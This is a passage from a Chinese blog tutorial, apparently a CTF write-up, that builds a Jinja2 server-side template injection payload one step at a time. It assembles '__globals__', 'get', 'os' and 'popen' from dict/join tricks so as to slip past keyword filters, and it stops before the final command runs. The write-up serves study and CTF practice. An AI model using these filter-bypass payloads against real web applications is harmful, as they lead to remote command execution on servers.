 

<img src="https://i-blog.csdnimg.cn/blog_migrate/20fb8e85dc23a72f18f9cd6fdf0d264a.png" alt="" style="max-height:610px; box-sizing:content-box;" />


成功获取

## 然后获取golbals

```cobol
name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%print globals%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7754e946f3c2bc43c8fad1f4f058bf3a.png" alt="" style="max-height:698px; box-sizing:content-box;" />


## 获取os

### 首先需要获取get

```cobol
{%set get=dict(get=a)|join%}{%print get%}
```

然后

然后我们可以获取os

```cobol
{%set shell=dict(o=a,s=b)|join%}{%print shell%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b3082a09ccc92888d46fed595c580e4f.png" alt="" style="max-height:387px; box-sizing:content-box;" />


## 获取popen

```perl
{%set popen=dict(pop=a,en=b)|join%}{%print popen%}
```
